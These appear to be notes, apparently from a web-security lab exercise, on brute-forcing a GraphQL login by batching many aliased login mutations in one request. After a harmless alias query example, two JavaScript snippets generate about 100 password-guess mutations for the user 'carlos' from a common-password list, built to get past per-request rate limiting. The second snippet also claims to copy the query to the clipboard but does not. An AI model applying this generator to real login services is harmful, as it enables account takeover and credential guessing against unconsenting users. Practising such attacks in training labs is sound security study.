 ```json
#Valid query using aliases
    query getProductDetails {
        product1: getProduct(id: "1") {
            id
            name
        }
        product2: getProduct(id: "2") {
            id
            name
        }
    }
```

```json
    #Response to query
    {
        "data": {
            "product1": {
                "id": 1,
                "name": "Juice Extractor"
             },
            "product2": {
                "id": 2,
                "name": "Fruit Overlays"
            }
        }
    }
```

Aplica una función a a cada par de valores índice : contraseña, tiene que llamar con un alias distinto a cada par
```javascript

copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>` bruteforce$index:login(input:{password: "$password", username: "carlos"}) { token success } `.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
```

Mejor : 
```javascript
const query = `123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`
  .split(',')
  .map((password, index) => 
    `bruteforce${index}:login(input:{password: "${password}", username: "carlos"}) { token success }`
  )
  .join('\n');

console.log(query);
console.log("The query has been copied to your clipboard.");
```